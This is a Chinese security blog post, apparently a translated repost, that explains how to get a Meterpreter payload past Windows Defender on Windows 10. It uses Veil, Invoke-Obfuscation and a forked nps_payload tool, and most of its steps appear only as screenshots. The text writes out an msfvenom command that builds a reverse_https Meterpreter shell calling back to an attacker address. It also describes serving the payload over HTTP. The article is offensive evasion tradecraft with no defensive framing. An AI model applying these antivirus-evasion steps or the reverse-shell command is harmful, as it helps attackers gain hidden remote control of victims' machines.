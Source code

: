 > 原文链接: https://www.anquanke.com//post/id/148340 


# win10内存执行meterpreter绕过杀软第二弹


                                阅读量   
                                **118769**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t010e7ba8610bc198ab.png)](https://p1.ssl.qhimg.com/t010e7ba8610bc198ab.png)

坎宁汉姆的定律是这样的：“在互联网上获得正确答案的最好方法并不是去问一个问题，而是发布一个错误的答案”。

[![](https://p5.ssl.qhimg.com/t01b0f3a1a0a5a97151.png)](https://p5.ssl.qhimg.com/t01b0f3a1a0a5a97151.png)

然而，自从我发布上篇博文《win10内存花式执行meterpreter绕过杀软》后却没有收到负面反馈，不过我自己已经发现了一些问题：

以下是我目前为止发现的：

<!-- [if !supportLists]-->l  <!--[endif]-->绝大多数杀软使用默认配置就能检测到nps_payload，因为它在后端使用了msfvenom来生成可执行的powershell代码。

<!-- [if !supportLists]-->l  <!--[endif]-->从webDAV上获取文件对磁盘并不是“零写入的”，在C:WindowsServiceProfilesLocalServiceAppDataLocalTempTfsStoreTfs_DAV这个目录中你可以找到一些内容。

<!-- [if !supportLists]-->l  <!--[endif]-->Msbuild也不是零写入的，执行的时候会在C:Users[USER]AppDataLocalTemp[RANDOM]写入一些内容。不过，跟webDAV不一样，执行之后它会自我清理。

好消息是我可以修复第一个问题，下面是修复的步骤：



## 使用Veil

假设你已经安装了Veil，并且使用nps_payload生成了msbuild_nps.xml文件。

使用下面的参数运行Veil：

[![](https://p1.ssl.qhimg.com/t015ec2e3c43eb7abc9.png)](https://p1.ssl.qhimg.com/t015ec2e3c43eb7abc9.png)

执行后你会得到一个payload.bat文件。根据靶机架构不同，我们会复制相对应的命令。下面我对x64架构进行了高亮显示。

[![](https://p5.ssl.qhimg.com/t01f93c2dcd61165a73.png)](https://p5.ssl.qhimg.com/t01f93c2dcd61165a73.png)

在上面的这段payload中，需要删除”位置处的转义字符 （有两处）。

这种转义在Windows命令行中是需要的，但是我们要进行的操作并不需要。

现在需要进行base64编码。一种简单的编码方式是复制到一个文件中，运行如下命令：

[![](https://p1.ssl.qhimg.com/t01fef448bcaff8de38.png)](https://p1.ssl.qhimg.com/t01fef448bcaff8de38.png)

复制base64输出内容，替换掉msbuild_nps.xml文件中的cmd命令。确保不要覆盖了闭合引号和分号。

[![](https://p3.ssl.qhimg.com/t01a0dd6ee529c02e0a.png)](https://p3.ssl.qhimg.com/t01a0dd6ee529c02e0a.png)

现在你可以再次运行nps_payload，选择option4，将你的filename.txt作为输入：自定义PS1脚本。

 这就OK了，告别烦人的Windows Defender。



## 使用Invoke-Obfuscation

首先，在一个有powershell的系统上获取Invoke-Obfuscation.运行在你自己的系统上，而不是靶机。

Windows Defender又会跳出来拦截你的操作：

[![](https://p0.ssl.qhimg.com/t01a2189bf8c04b1c17.png)](https://p0.ssl.qhimg.com/t01a2189bf8c04b1c17.png)

在我这个例子中，最终还是得以执行。

为了获得初始的powershell脚本，你可以像执行nps-payload脚本一样使用msfvenom:

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.137.134 LPORT=443 –arch x86 –platform win -f psh -o msf_payload.txt

[![](https://p4.ssl.qhimg.com/t01f53421fd261a4ffe.png)](https://p4.ssl.qhimg.com/t01f53421fd261a4ffe.png)

我使用了python的简单http server模块，通过http方式传到主机上。这将帮助我们更好的把它插入到Invoke-Obfuscation中。

使用Invoke-Obfuscation，我们需要利用的powershell脚本如下：

[![](https://p2.ssl.qhimg.com/t01b6c7dc8fc73bfa7f.png)](https://p2.ssl.qhimg.com/t01b6c7dc8fc73bfa7f.png)

选择任意方法进行混淆，这里我选择“Token All”

[![](https://p0.ssl.qhimg.com/t0154b67b483c7b97b6.png)](https://p0.ssl.qhimg.com/t0154b67b483c7b97b6.png)

执行后可以得到如下内容：

[![](https://p4.ssl.qhimg.com/t01b7ecfa816cc42a87.png)](https://p4.ssl.qhimg.com/t01b7ecfa816cc42a87.png)

这就是你的powershell脚本。当你执行invoking，选择option4自定义PS1脚本时，你可以把它作为一个新文件插入这个脚本到nps-payload中。



## 使用Franci Šacer的nps-payload版本

先去GitHub上下载他的版本：[https://github.com/fsacer/nps_payload](https://github.com/fsacer/nps_payload)

选择“Generate msbuild/nps/msf CSharp payload”

[![](https://p1.ssl.qhimg.com/t018e6a8aa60a2998be.png)](https://p1.ssl.qhimg.com/t018e6a8aa60a2998be.png)

按照上面的步骤执行。这种方式根本没使用powershell，所以不会像使用其他方式一样被检测到。

我感觉这是所有方法中最好的一种，所以我把它放到最后，是想延长微软开始对它进行检测的时间。

因为我一放出这种方式，微软肯定会有所行动。



审核人：yiwang   编辑：边边
